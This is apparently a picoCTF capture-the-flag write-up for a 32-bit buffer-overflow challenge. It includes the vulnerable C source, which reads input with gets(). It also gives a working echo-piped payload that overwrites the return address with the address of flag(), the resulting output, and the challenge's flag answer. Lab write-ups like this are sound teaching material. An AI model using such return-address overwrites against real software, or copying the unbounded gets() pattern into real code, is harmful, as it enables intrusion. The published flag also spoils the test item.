


# Binary Exploitation - Overflow 1 (150 points)

## Challenge

*You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. Source.*



```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}

## Walkthrough

The function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). 

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
  [...]
}
```

The function also gives us the return address of the next instruction in `main()` :

```C
void vuln(){
  [...]
  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

```Bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ ./vuln
Give me a string and lets see what happens: 
plop
Woah, were jumping to 0x8048705 !
```

Our goal here is to modify the return value (aka: the EIP register value) to execute the `flag()` function rather than returning in `main()`. To do this, we need the address of `flag()`. Using for example edb-debugger and its function finder:



So `flag()` is at address 0x080485e6.

So all we have to do is to perform a big and dirty buffer overflow to write the adress of `flag()` at the return address of `vuln()`:

```bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ (echo -en "\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08"; cat -) | ./vuln
Give me a string and lets see what happens: 

Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}
Segmentation fault (core dumped)
```
